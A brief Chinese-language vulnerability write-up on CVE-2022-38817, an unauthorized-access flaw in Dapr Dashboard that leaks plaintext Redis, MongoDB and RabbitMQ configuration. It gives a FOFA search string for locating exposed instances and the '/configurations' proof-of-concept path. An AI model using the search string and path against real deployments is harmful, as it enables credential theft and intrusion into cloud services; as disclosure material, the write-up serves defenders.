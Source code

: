 # Dapr Dashboard configurations 未授权访问漏洞 CVE-2022-38817

## 漏洞描述

Dapr Dashboard 存在 未授权访问漏洞，在未经授权的情况下获取云上redis、mongodb、rabbitmq等应用的明文配置信息，并可以进一步利用这些配置信息获取云上的敏感数据

## 漏洞影响

```
Dapr Dashboard
```

## FOFA

```
"Dapr Dashboard"
```

## 漏洞复现

主页面

![image-20221017171042042](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202210171710081.png)

验证POC

```
/configurations
```

![image-20221017171055193](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202210171710235.png)

![image-20221017171111046](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202210171711095.png)